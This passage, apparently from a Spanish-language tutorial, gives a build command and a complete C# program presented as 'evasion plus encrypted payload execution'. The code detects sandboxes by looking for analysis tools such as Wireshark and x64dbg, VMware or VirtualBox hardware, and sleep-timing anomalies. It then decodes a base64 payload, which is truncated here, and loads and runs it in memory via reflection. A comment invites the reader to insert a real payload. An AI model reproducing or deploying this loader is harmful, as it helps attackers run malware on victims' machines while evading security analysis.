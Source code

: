 ```bash
dotnet build -c Release
```

---

### ✅ Ejemplo completo final: Evasión + ejecución de payload cifrado

```csharp
using System;
using System.Diagnostics;
using System.Management;
using System.Reflection;
using System.Text;
using System.Threading;

class Program
{
    static bool IsSandbox()
    {
        string[] suspicious = { "wireshark", "procmon", "x64dbg", "fiddler" };
        foreach (Process p in Process.GetProcesses())
        {
            foreach (string name in suspicious)
            {
                if (p.ProcessName.ToLower().Contains(name)) return true;
            }
        }

        var searcher = new ManagementObjectSearcher("Select * from Win32_ComputerSystem");
        foreach (var item in searcher.Get())
        {
            string manufacturer = item["Manufacturer"].ToString().ToLower();
            if (manufacturer.Contains("vmware") || manufacturer.Contains("virtualbox")) return true;
        }

        var sw = Stopwatch.StartNew();
        Thread.Sleep(4000);
        sw.Stop();

        return sw.ElapsedMilliseconds < 3000;
    }

    static void Main()
    {
        if (IsSandbox())
        {
            Console.WriteLine("Entorno inseguro detectado. Abortando...");
            return;
        }

        Console.WriteLine("Ejecutando payload en entorno seguro...");

        // Payload simulado en base64 (normalmente sería shellcode o exe ofuscado)
        string payloadBase64 = "TVqQAAMAAAAEAAAA..."; // <-- pon aquí tu payload real
        byte[] payloadBytes = Convert.FromBase64String(payloadBase64);
        Assembly asm = Assembly.Load(payloadBytes);
        asm.EntryPoint.Invoke(null, new object[] { new string[] { } });
    }
}
```

---